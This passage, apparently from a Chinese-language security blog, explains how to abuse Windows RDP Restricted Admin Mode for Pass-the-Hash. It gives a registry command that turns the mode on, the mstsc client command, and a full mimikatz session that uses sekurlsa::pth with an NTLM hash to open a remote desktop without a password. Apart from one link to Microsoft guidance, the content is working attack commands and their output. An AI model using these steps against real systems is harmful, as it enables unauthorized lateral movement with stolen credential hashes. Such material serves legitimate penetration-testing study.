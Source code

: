 新建 DWORD 类型键值 DisableRestrictedAdmin，0 代表开启，1 代表关闭：

```
REG ADD HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

查询 DisableRestrictedAdmin 的值，`0x0` 表示已开启：

```
REG QUERY HKLM\System\CurrentControlSet\Control\Lsa | findstr DisableRestrictedAdmin
```

Restricted Admin Mode 本来是为了提高系统的安全性，但是却支持了 Pass-the-Hash 的利用。

在防御上，只需要针对 Pass-the-Hash 的利用进行防御就好，详情见：[https://www.microsoft.com/en-us/download/details.aspx?id=36036](https://www.microsoft.com/en-us/download/details.aspx?id=36036)。

### Windows - mstsc.exe

客户端连接命令：

```
mstsc.exe /restrictedadmin
```

在开启 `Restricted Admin Mode` 后，如果你的 Windows 不支持，执行命令后会弹出远程桌面的参数说明，如下图：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/d5d7ea25d4303702.png){: w="400" }

攻击者使用 mimiketz 进行 pth 运行远程桌面程序 Restricted Admin Mode，在进行 RDP 登录时不需要再输入密码，直接登录即可：

```

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:Administrator /domain:172.22.1.2 /ntlm:10cf89a850fb1cdbe6bb432b859164c8 "/run:mstsc.exe /restrictedadmin"
user    : Administrator
domain  : 172.22.1.2
program : mstsc.exe /restrictedadmin
impers. : no
NTLM    : 10cf89a850fb1cdbe6bb432b859164c8
  |  PID  6664
  |  TID  5700
  |  LSA Process is now R/W
  |  LUID 0 ; 1535426 (00000000:00176dc2)
  \_ msv1_0   - data copy @ 000002A6FB76A260 : OK !
  \_ kerberos - data copy @ 000002A6FB8DB5A8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000002A6FB6B9768 (32) -> null

mimikatz #
```
